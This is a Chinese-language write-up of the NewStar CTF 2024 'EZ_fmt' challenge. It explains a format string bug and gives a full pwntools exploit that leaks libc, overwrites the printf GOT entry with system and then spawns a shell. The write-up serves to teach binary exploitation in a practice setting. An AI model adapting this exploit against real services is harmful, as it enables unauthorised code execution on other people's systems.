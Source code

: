 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# EZ_fmt

![vuln函数](/assets/images/wp/2024/week2/ez-fmt_1.png)

很经典的格式化字符串

首先确定offset为8

![确定偏移](/assets/images/wp/2024/week2/ez-fmt_2.png)

根据程序

我们有三次格式化字符串的机会

第一次泄露libc

第二次改printf got表地址为system

第三次输入为sh，构造出printf(buf)=system(sh)即可

exp如下

```Python
from pwn import *
import sys
from ctypes import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux','splitw','-h']

libc = ELF('./libc.so.6')
elf = ELF('./chal')
flag =0
if flag:
    p = remote('ip', port)
else:
    p = process("./")

sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ti = lambda : p.interactive()
leak = lambda name,addr :log.success(name+"--->"+hex(addr))


sla(b': \n', b'%19$p')
ru(b'0x')
libc.address = int(rc(12),16) - 0x29d90
leak("libc", libc.address)

low = libc.sym['system']&0xff
high = (libc.sym['system']>>8)&0xffff
payload = b'%' + str(low).encode() + b'c%12$hhn'
payload += b'%' + str(high - low).encode() + b'c%13$hn'
payload = payload.ljust(0x20,b'a')
payload += p64(elf.got['printf']) + p64(elf.got['printf']+1)


sa(b': \n', payload)

sla(b': \n', b'  sh;')
# gdb.attach(p)
p.interactive()
```
